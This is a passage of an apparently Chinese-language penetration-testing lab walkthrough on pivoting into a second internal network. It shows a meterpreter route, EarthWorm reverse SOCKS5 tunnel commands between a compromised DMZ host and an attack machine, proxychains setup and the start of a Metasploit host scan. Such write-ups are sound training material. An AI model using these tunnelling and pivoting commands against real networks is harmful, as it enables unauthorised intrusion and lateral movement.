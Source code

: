 ## 内网渗透

### 第二层网络渗透

在DMZ区域Ubuntu 18的meterpreter中添加一个通往192.168.52.1/24网段的路由：

![img](assets/1700555907897-786a1c88-cc57-4b78-a12b-54b2175dd479.jpeg)

路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建socks5反向代理服务。

在攻击机上执行如下：

./ew_for_linux64 -s rcsocks -l 1080 -e 1234

在DMZ区域的Ubuntu 18上传ew_for_linux64，并执行如下命令：

./ew_for_linux64 -s rssocks -d 192.168.1.7 -e 1234

![img](assets/1700555908091-898f5bc4-86f4-4ba7-b33e-6e56dfb45877.jpeg)

然后配置proxychains，将socks5服务器指向127.0.0.1:1080，之后便可以使用proxychains将我们攻击机上的程序代理进第二层网络（192.168.52.1/24）了。

接着，我们使用metasploit的 auxiliary/scanner/discovery/udp_probe 模块来扫描第二层网络中的主机存活：

